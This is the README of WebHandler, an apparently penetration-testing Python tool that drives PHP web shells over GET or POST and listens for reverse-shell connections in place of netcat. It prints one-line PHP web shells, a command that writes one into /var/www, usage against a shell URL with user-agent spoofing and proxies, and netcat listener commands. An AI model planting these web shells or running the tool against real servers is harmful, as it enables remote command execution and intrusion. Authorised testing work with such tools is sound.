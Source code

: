 WebHandler - A hanlder for PHP system functions & alternative 'netcat listener'
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info ###
---
WebHandler tries to simulate a 'Linux bash prompt' to handle and  process:
    - PHP _program execution functions_ (e.g. 'system', 'passthru', 'exec', etc)
    - Reserve shell connections (e.g. 'nc -lvvp 1234')

Another feature is to spoof "User-Agent" in the HTTP header. (--random-angent)
It also supports HTTP proxies (proxy http://<ip>:<port>

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

* WebHandler is a replacement for netcat with a reverse connection:
    - netcat -l -p 1234
    - nc -lvvp 4321

### Usage ###
---
* --Example file
    - echo '<?php system($_GET['cmd']); ?>' > /var/www/shell.php

* --url is a required argument when sending either GET or POST requests (e.g. a bind 'web based PHP' connection):
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080

* --listen is a required argument when working waiting connection (e.g. a reverse 'raw' connection):
    - python webhandler.py --listen 1234

### Dependencies
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo (apt-get|yum) install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

### Links
---
[Wiki][]

[Known Bugs][]

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
[Wiki]: https://github.com/lnxg33k/webhandler/wiki
[Known Bugs]: https://github.com/lnxg33k/webhandler/issues
